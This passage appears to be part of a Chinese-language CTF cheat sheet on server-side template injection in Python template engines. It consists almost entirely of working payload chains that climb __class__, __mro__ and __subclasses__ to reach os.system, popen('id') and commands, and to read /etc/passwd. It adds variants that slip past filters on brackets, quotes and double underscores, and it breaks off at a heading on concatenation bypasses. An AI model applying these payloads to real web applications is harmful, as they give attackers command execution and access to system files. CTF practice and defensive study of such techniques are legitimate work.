 > 



```
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()

```

### 遇到SSTI题目时的思路

> 



### 花式绕过

#### 绕过中括号

> 



```
__mro__[2]== __mro__.__getitem__(2)
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()

```

#### 绕过引号

> 



```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&amp;path=/etc/passwd

```

#### 绕过双下划线

> 



```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&amp;class=__class__&amp;mro=__mro__&amp;subclasses=__subclasses__

```

#### 拼接绕过
